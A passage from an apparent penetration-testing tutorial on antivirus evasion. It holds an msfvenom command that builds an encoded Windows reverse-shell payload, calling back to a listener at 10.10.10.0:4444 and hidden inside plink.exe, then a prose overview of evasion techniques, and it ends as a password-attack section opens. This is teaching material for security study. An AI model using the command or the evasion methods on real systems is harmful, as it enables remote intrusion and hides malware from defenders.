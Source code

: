 Once we have the **.exe** file, we can upload it to **VirusTotal** and see what's the feedback:

![Detected Virus](virustotal1.png)

It gets detected by 59 out of 71 vendors and, of course, it is flagged as a threat. By the way, **VirusTotal** is a very powerful and useful tool that helps a lot with malware analysis. Play around with it to get to know it better.

Now, let's try to obfuscate it a bit. We are going to embed it inside a non-malicious PE executable and see what happens.

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.0 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

![Detected Virus](virustotal2.png)

39 out of 71 vendors flagged it as a threat! Not so great but a bit better than before. Now, instead of using simple tricks to hide it a little bit, you could use automated tools to level up this art.

### Other AV Evasion Techniques

- **Obfuscation:** Used to prevent mainly signature-based detection methods to detect malware by applying various techniques like adding garbage commands, unnecessary jumps, format alternation, variable renaming, rearrange functions, replace statements with similar functionality, encoding, reverse arrays etc.

- **Encryption:** To hide, randomize or obfuscate the malicious payload, malware can use simple encryption algorithms like XOR or more complex ones such as AES. When running the malware, the payload is getting decrypted in memory and executed. The key is either stored in the code or even brute-forced by the malware. Malware using encryption can be detected even before run-time because of the used algorithm or the key in the code. Oligomorphic and Polymorphic techniques are using encryption extensively to hide its code.

- **Metamorphism:** Metamorphic malware is more difficult to detect by AV because it uses a mutation engine to change its entire code during the version propagation and has no similarity to the original one. This makes it more difficult to detect and requires a modern AV with heuristic and behavioural analysis. A simplified way to describe the difference between polymorphic and metamorphic malware is: “Polymorphic malware is a leopard that changes its spots; metamorphic malware is a tiger that becomes a lion”.

- **Code/Process Injection:** Attackers can inject malicious code into legitimate processes running on a target system to evade detection. This can be achieved through techniques such as DLL injection, reflective DLL injection, and process hollowing.

But for the sake of this section, I'm not stepping any further into this topic. If you want to know more, **[here](https://book.hacktricks.xyz/windows-hardening/av-bypass)**'s a quick guide about **AV Evasion by HackTricks**. They also recommend this playlist: **[AV Evasion 101](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf)** - a bit old but good to learn the basics.

## 2. Password Attacks

The theory behind **password attacks** is simple to comprehend: If a service of some sort requires valid credentials to access it, we can simply attempt to guess, or **brute-force**, these credentials until they are identified. 
